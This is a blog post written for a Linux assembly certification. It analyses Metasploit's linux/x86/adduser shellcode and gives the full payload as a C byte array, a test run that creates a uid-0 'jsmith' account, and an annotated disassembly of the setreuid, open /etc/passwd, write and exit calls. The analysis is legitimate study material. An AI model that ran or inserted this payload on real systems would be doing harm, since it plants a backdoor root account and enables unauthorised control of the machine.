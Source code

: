 ```yaml
---
title:  "[SLAE 5] Metasploit Shellcode Analysis"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit Linux adduser shellcode analysis
This post is part of the 5th assignment of the SLAE course and will analyse the Metasploit _`linux/x86/adduser shellcode`_. First let's generate the shellcode: 
```bash
# msfpayload linux/x86/adduser USER=jsmith PASS=ok  C
```

This will generate a payload that will create a new _`root`_ user, with uid and gid equal to 0. 
```c
/*
 * linux/x86/adduser - 93 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, USER=jsmith, PASS=ok, SHELL=/bin/sh
 */
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73"
"\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d"
"\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e"
"\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01"
"\x58\xcd\x80";
```

To test it, I've integrated the shellcode into a C skeleton file and run against a Linux box: 
```bash
# cat /etc/passwd | grep jsmith
# ./shellcode
Shellcode Length:  40 bytes
# cat /etc/passwd | grep jsmith
jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh
# su jsmith
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see, the new root user was successfully created. Next I continued to disassemble it: 
```bash
$ echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x24\x00\x00\x00\x6a\x73\x6d\x69\x74\x68\x3a\x41\x7a\x2e\x54\x4f\x53\x72\x67\x72\x4d\x36\x72\x6f\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" |ndisasm -b 32 -
```
First the shellcode restores the privileges, in case the running process would have dropped them: 
```asm
00000000  31C9              xor ecx,ecx             ; Effective user id - 0
00000002  89CB              mov ebx,ecx             ; Real user id - 0
00000004  6A46              push byte +0x46         ; sys_setreuid16 syscall number
00000006  58                pop eax                 ; Sets real and effective user id
00000007  CD80              int 0x80                ; Fire the interrupt
```

Next, it will open the _`/etc/passwd`_ file. The flags for opening the file will be set to *`0x00000401: O_WRONLY|O_APPEND`*. 

*__Note1__*: the mode for opening the file, which should have been in `EDX` register, is not specified because it is ignored for _`O_CREAT`_ flag not specified:
```asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; Prepare eax for sys_open syscall
0000000C  31C9              xor ecx,ecx             ; Set ecx to 0 
0000000E  51                push ecx                ; Push 0 to act as a null terminator
0000000F  6873737764        push dword 0x64777373   ; 'dwss'
00000014  682F2F7061        push dword 0x61702f2f   ; 'ap//'
00000019  682F657463        push dword 0x6374652f   ; 'cte/'
0000001E  89E3              mov ebx,esp             ; Filename: '/etc//passwd'
00000020  41                inc ecx  
```

*__Note2__*: the _`open`_ syscall and the parameters can also be easily viewed using strace program: 
```bash
# strace ./shellcode
[..]
open("/etc//passwd", O_WRONLY|O_APPEND) = 3 
```

The next part will write the _`jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n`_ string to it (username and encrypted password): 
```asm
00000025  93                xchg eax,ebx
00000026  E824000000        call dword 0x4f
; String starts  here -->
; jsmith:Az.TOSrgrM6ro:0:0::/:/bin/sh\n
0000002B  6A73              push byte +0x73
0000002D  6D                insd
0000002E  6974683A417A2E54  imul esi,[eax+ebp*2+0x3a],dword 0x542e7a41
00000036  4F                dec edi
00000037  53                push ebx
00000038  7267              jc 0xa1
0000003A  724D              jc 0x89
0000003C  36726F            ss jc 0xae
0000003F  3A30              cmp dh,[eax]
00000041  3A30              cmp dh,[eax]
00000043  3A3A              cmp bh,[edx]
00000045  2F                das
00000046  3A2F              cmp ch,[edi]
00000048  62696E            bound ebp,[ecx+0x6e]
0000004B  2F                das
0000004C  7368              jnc 0xb6
0000004E  0A. |--> String ends here
```

We then have to disassemble the instructions starting after the end of string (easily done in gdb): 
```asm
00000051  51                push ecx
00000052  FC                cld
00000053  6A04              push byte +0x4
00000055  58                pop eax         ; sys_write syscall
00000056  CD80              int 0x80
; write(3, "jsmith:Az.TOSrgrM6ro:0:0::/:/bin"..., 36) = 36
```

Finally the shellcode calls the exit function to cleanly finish execution: 
```asm
00000058  6A01              push byte +0x1
0000005A  58                pop eax         ; sys_exit syscall
0000005B  CD80              int 0x80
```

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

##### _This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_
